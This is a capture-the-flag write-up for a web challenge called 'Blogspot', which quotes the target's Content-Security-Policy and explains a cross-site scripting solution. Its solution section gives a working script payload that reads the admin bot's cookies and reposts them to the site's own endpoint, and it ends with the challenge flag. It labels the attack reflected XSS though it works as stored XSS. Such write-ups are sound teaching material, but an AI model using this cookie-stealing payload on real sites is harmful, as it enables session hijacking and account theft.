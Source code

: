 # Blogspot
Category: Web | 425pts

## Challenge Description
> Jaga created an internal social media platform for the company, can you leak anyone's information?

## Analysis
Glancing through the source code provided and challenge website, we can guess that this challenge is about Cross-Site Scripting (XSS) attacks, more specifically reflected XSS, for the following reasons:
- There is an admin bot that visits the website with the flag in its cookies
- You can input text and it gets displayed to everyone, including the admin bot

However, at the same time, there is a content security policy we have to take note of:
```js
app.use(function (req, res, next) {
	res.setHeader(
	  'Content-Security-Policy',
	  "default-src 'self'; script-src 'unsafe-inline' 'self' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
	);
	next();
  });
```

## Solution
We can use the following payload as a post to get the flag:
```js
qqq<script>xhr4=new XMLHttpRequest();var url4='/post';var a=document.cookie;xhr4.open('POST',url4,true);xhr4.setRequestHeader('Content-Type','application/json');var data=JSON.stringify({"title":"here","content":a});xhr4.send(data);</script>
```

## Explanation
Upon loading the page, the bot runs the script and sends a POST request to the `/post` endpoint with the flag in the body. The flag is then displayed on the page.

## Flag
`STF22{s1mpl3_p0stxSs:)}`